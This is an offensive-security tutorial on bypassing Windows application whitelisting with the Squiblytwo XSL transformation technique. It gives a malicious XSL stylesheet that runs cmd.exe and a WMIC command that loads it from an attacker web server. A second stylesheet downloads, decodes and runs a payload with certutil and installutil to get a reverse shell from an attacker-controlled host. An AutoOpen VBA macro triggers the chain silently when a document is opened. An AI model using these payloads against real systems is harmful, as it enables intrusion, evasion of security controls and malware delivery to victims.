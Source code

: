 ## Alternate
It's beneficial to prepare multiple bypasses in the event one is blocked.
The process of XSLT uses _Extensible Stylesheet Language_ (.xsl) documents to transform an XML document into a different format such as _XHTML_.

Part of the XSL transformation specification allows execution of embedded Jscript code when processing the supplied XML document. Security researchers have discovered an XSL transformation attack (_Squiblytwo_) that allows arbitrary code execution when triggered.

To leverage this, we must first craft a malicious XSL document and put it on our Apache webserver.

We start by creating the document:
```xml
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell");
			r.Run("cmd.exe");
		]]>
	</ms:script>
</stylesheet>
```

We can now trigger the execution through the WMI command-line utility (WMIC) by specifying the verb get and the /format: switch followed by the URL of the XSL file.

```shell 
wmic process get brief /format:"http://192.168.49.135/test.xsl"
```

Once the code is executed, our execution is triggered.

This application whitelisting technique can also be leveraged through a shortcut file that we provide to the victim. To weaponize this, we can modify the Jscript code inside the XSL file to contain a DotNetToJscript C# shellcode runner or any other payload we desire.

Getting a reverse shell with xsl:
```xml
<?xml version='1.0'?> <stylesheet version="1.0" xmlns="http://www.w3.org/1999/XSL/Transform" 
xmlns:ms="urn:schemas-microsoft-com:xslt" xmlns:user="http://mycompany.com/mynamespace"> 

<output method="text"/> 
	<ms:script implements-prefix="user" language="JScript"> 
		<![CDATA[ var ob = new ActiveXObject("WScript.Shell"); ob.Run("certutil.exe -urlcache -f http://<Kali_IP_web>/met.enc C:\Users\Public\met.enc", 0, true); ob.Run("certutil.exe -decode C:\Users\Public\met.enc C:\Users\Public\met.exe", 0, true); ob.Run("C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Users\Public\met.exe", 0, true); ]]> </ms:script> </stylesheet>

```

Combine with macro:
```VBA
Sub AutoOpen()
    Shell "wmic process get brief /format:""http://<Kali_IP_web>/payload.xsl""", vbHide 
End Sub
```